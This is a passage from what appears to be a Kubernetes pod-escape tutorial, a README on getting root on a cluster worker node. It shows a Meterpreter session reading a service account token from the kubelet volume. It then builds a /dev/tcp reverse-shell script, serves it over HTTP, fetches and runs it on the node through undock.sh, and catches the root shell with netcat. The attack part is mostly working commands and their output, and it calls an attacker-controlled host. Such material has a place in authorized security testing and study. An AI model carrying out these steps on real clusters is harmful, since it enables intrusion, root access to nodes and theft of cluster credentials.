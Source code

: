 ```bash
[*] Sending stage (3008420 bytes) to 10.0.0.162
[*] Meterpreter session 3 opened (10.0.0.127:4444 -> 10.0.0.162:47310) at 2020-11-20 11:28:18 -0500
[*]
[*] Waiting 20s for payload

meterpreter > shell
Process 3068510 created.
Channel 1 created.
whoami
root
hostname
k8s-worker
cat var/lib/kubelet/pods/998357c8-45c7-4089-9651-cb8b185f7da8/volumes/kubernetes.io~secret/default-token-qqgjc/token
eyJhbGciOiJSUzI1NiIsImtpZCI6Ik[REDACTED]
```

### Option 4: Use undock.sh to download your own payload and then execute it spawn the reverse shell 
I'm not sure why you would need this forth option, but I use this before I found Brandon Edwards and Nick Freeman's talk. It works, just adds an unecessary callback to a remote server. 

#### Create a payload and host it on your remote box
```bash
echo "0<&209-;exec 209<>/dev/tcp/10.0.0.127/4444;sh <&209 >&209 2>&209" > rshell.sh
python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```
#### Use undock.sh to download the script to the host and then execute it in the context of the host
```bash
root@pod-priv:/# sh undock.sh "curl -sL http://10.0.0.127:8000/rshell.sh -o /tmp/rshell.sh"
root@pod-priv:/# sh undock.sh "bash -c /tmp/rshell.sh"
```

#### Catch the shell, do some damage
```bash
nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.0.0.127] from (UNKNOWN) [10.0.0.162] 48572
id
uid=0(root) gid=0(root) groups=0(root)
hostname
k8s-worker
```

## What to look for on a node

### Look for kubeconfig's in the host filesystem 
If you are lucky, you will find a cluster-admin config with full access to everything (not so lucky here on this GKE node)
